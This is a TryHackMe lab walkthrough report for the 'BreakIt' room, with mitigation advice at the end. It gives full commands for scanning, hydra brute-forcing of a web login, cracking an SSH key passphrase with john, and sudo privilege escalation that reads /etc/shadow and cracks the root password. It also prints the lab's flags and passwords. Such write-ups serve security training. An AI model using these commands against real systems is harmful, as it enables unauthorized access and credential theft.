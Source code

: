 # 🟩BreakIt – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** August 21, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify active hosts, open ports, services, and vulnerabilities.  
**Commands Used:**  
```bash
ping <target_ip>  
nmap -p- --min-rate=1000 -sV <target_ip> -T4 -v  
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

**Findings:**  
- Host confirmed online via ping.  
- Open ports: SSH (22, OpenSSH 7.6p1), HTTP (80, Apache 2.4.29).  
- Web enumeration revealed `/admin` directory with a login page.  
- HTML comment in `/admin` disclosed username `admin`.  

---

## 2. Exploitation Process  
**Step 1 – Web Enumeration (Port 80)**  
- Used gobuster to find `/admin` directory:
  ```bash
  gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
  ```  
- `/admin` login page HTML comment revealed username `admin`.  

**Step 2 – Brute-Forcing Admin Credentials**  
- Brute-forced `/admin` login credentials:
  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
  ```  
- Result: Password `xavier`.  

**Step 3 – Admin Panel Access**  
- Logged into `/admin` with admin:xavier.  
- Obtained web flag: `THM{brut3_f0rce_is_e4sy}` and an RSA private key file (id_rsa).  

**Step 4 – SSH Key Analysis**  
- Copied id_rsa and converted to hash:
  ```python
  python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
  ```
- Cracked passphrase with john:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```
- Result: Passphrase `rockinroll`.  
- Webpage hinted RSA key belonged to user `john`.  

**Step 5 – SSH Access as John**  
- Logged in via SSH:  
  `ssh -i id_rsa john@<target_ip>` with passphrase `rockinroll`.  
- Found user.txt in /home/john: `THM{a_password_is_not_a_barrier}`.  

**Step 6 – Privilege Escalation**  
- Checked sudo permissions:
```bash
  sudo -l
```
- Found john could run `/bin/cat` as root without a password.  
- Exploited to read /root/root.txt:
```bash
  sudo cat /root/root.txt
```
- Result: Root flag `THM{pr1v1l3g3_3sc4l4t10n}`.  
- Copied /etc/shadow to /tmp/shadow:
```bash
  sudo cat /etc/shadow > /tmp/shadow
```
- Cracked root password from /tmp/shadow:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ``` 
- Result: Password `football`.  

---

## 3. Proof of Concept (PoC)  
- **Web Brute Force:**
```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
```  
  Obtained admin:xavier.  
- **SSH Key Cracking:**
```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
  Cracked passphrase rockinroll.  
- **Privilege Escalation:**
```bash
  sudo cat /root/root.txt
```
  Accessed root flag.  
- **Password Hash Cracking:**
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
  Cracked root:football.  

---

## 4. Privilege Escalation  
- Exploited sudo permission allowing john to run `/bin/cat` as root.  
- Read /root/root.txt and /etc/shadow, enabling root password cracking.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Remove sensitive information (e.g., username hints) from HTML comments.  
  - Restrict `/admin` access with stronger authentication mechanisms.  
- **Authentication Security:**  
  - Enforce complex passwords for web and SSH accounts.  
  - Use strong, unique passphrases for SSH keys.  
- **Sudo Configuration:**  
  - Limit sudo commands to specific, necessary files.  
  - Avoid allowing powerful commands like `/bin/cat` without restrictions.  
- **File Security:**  
  - Protect sensitive files (e.g., id_rsa, /etc/shadow) with strict permissions (chmod 600).  
  - Avoid storing private keys in accessible web directories.  
- **Patch Management:**  
  - Update Apache and OpenSSH to the latest versions.  
  - Implement monitoring for unauthorized access attempts.  

---

## 6. Lessons Learned  
- **Weak Credentials:** Simple passwords (e.g., xavier) are vulnerable to brute-force attacks.  
- **Information Disclosure:** HTML comments can leak critical information like usernames.  
- **Sudo Misconfiguration:** Overly permissive sudo rules enable easy privilege escalation.  
- **SSH Key Security:** Weak passphrases and accessible private keys risk unauthorized access.  

---

## 7. Skills Practiced  
- Network scanning (`nmap`, `ping`)  
- Web directory enumeration (`gobuster`)  
- Credential brute-forcing (`hydra`)  
- SSH key cracking (`john`, `ssh2john`)  
- Sudo privilege escalation  
- Password hash cracking  
- Secure reporting and mitigation strategies  
